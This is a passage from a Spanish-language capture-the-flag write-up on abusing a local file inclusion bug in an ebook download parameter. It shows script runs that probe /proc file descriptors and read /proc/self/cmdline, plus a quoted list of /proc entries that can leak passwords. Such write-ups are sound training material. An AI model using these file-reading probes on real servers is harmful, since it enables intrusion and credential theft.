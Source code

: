 ```bash
❱ python3 bruteforce_pid.py 
?ebookdownloadurl=/proc/885/fd/0 ----> 73
?ebookdownloadurl=/proc/885/fd/1 ----> 73
?ebookdownloadurl=/proc/885/fd/2 ----> 73
?ebookdownloadurl=/proc/885/fd/3 ----> 73
?ebookdownloadurl=/proc/885/fd/4 ----> 73
?ebookdownloadurl=/proc/885/fd/5 ----> 73
?ebookdownloadurl=/proc/885/fd/6 ----> 73
?ebookdownloadurl=/proc/885/fd/7 ----> 73
?ebookdownloadurl=/proc/885/fd/8 ----> 73
?ebookdownloadurl=/proc/885/fd/9 ----> 73
?ebookdownloadurl=/proc/885/fd/10 ----> 76
?ebookdownloadurl=/proc/885/fd/11 ----> 76
?ebookdownloadurl=/proc/885/fd/12 ----> 76
?ebookdownloadurl=/proc/885/fd/13 ----> 76
?ebookdownloadurl=/proc/885/fd/14 ----> 76
?ebookdownloadurl=/proc/885/fd/15 ----> 76
```

Nada, no encontramos ningún `fd` o algún cambio rotundo en la respuesta del servidor... Jugando con el bucle y su rango tampoco logramos nada, así que no queda de otra que seguir buscando en internet...

## LFI pa ver el RCE [📌](#lfi2rce-done) {#lfi2rce-done}

Caemos en este apartado de un post ya citado:

* [The `proc` File System - Useful `/proc/<PID>` entries](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/#useful-proc-entries)

Ahí nos hablan de varios objetos que pueden llegar a exponer información de los procesos en ejecución:

```bash
/proc/[PID]/cmdline - Process invocation command with parameters.
-> It potentially exposes paths, usernames and passwords.

/proc/[PID]/environ - Environment variables.
-> It potentially exposes paths, usernames and passwords.

/proc/[PID]/cwd - Process current working directory.

/proc/[PID]/fd/[#] - File descriptors.
-> Contains one entry for each file which the process has open.
```

El último ya lo probamos, intentemos ver que sale con los otros 3:

```bash
❱ python3 eBookLFI.py /proc/self/cmdline

/usr/sbin/apache2
-k
start

❱ python3 eBookLFI.py /proc/885/cmdline

/usr/sbin/apache2
-k
start
```
